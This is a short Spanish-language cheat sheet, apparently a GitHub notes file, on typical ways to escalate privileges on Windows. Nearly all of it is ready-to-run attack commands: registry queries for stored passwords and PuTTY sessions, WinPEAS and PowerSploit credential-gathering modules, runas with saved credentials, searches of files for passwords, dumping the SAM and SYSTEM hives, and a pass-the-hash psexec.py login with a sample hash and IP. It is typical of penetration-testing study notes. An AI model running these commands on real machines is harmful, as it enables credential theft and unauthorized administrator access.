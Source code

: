 # Formas tipicas de escalar privilegios para Windows

- WinPEAS
- PowerSploit
- Save Creds
- Sam y System
- Archivos de Configuracion
- Registro

# - Registro
```powershell
reg query HKLM /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
Para contraseñas en Putty
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
# WinPEAS
```powershell
winPEAS.exe quiet filesinfo userinfo
winPEAS.exe quiet windowscreds
winPEAS.exe quiet searchfast filesinfo
```

# PowerSploit
Estos son sus modulos a probar
```powershell
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
``` 
# Credenciales Guardadas
```cmd
cmdkey /list
``` 
Runas --> en Caso de Tener credenciales guardadas de otro usuario podriamos ejecutar acciones o binarios
```powershell
runas /savecred /user:<usuario> <ejecutable> 
```

# Script para enumerar Otras interfaces
```cmd
for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

# Archivos de Configuracion
Buscando por archivos que contengan la palabra pass o extension .config
```cmd
dir /s *pass* == *.config
```
Buscando por archivos que contengan la palabra password y acaben por la extension .xml
```cmd
findstr /si password *.xml *.ini
```
- Modulo de Metasploit para buscar por password recursivamente
post/windows/gather/enum_unattend

# Sam y System
Los archivos SAM y SYSTEM, se almacenan en el directorio:
```cmd
C:\Windows\System32\config
```
Buscando por Backups de Sam y System
```cmd
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```
Si los hubiesemos encontrado o tuviesemos privilegios para realizar una copia de los mismos
```
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```

```
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:f58b86e89c8631e432cf1a0232362853f' WORKGROUP/administrator@11.111.128.10 cmd
```

